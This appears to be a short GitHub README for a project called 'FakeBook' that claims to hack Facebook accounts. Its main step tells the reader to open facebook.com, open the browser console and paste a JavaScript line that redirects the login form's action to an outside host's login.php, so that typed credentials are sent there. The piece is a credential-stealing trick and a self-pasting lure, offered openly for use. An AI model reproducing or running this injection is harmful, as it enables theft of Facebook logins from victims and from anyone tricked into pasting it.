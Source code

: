 # FakeBook
Hack Someone Facebook With JavaScript inject0r

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
<li>Open https://www.facebook.com with Google Chrome Browser</li>
<li>Right-click on any page element and select Inspect Element and then Console</li>
<li>Copy & Paste (Crtl+V) this a line Javascript:
<code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
</li>
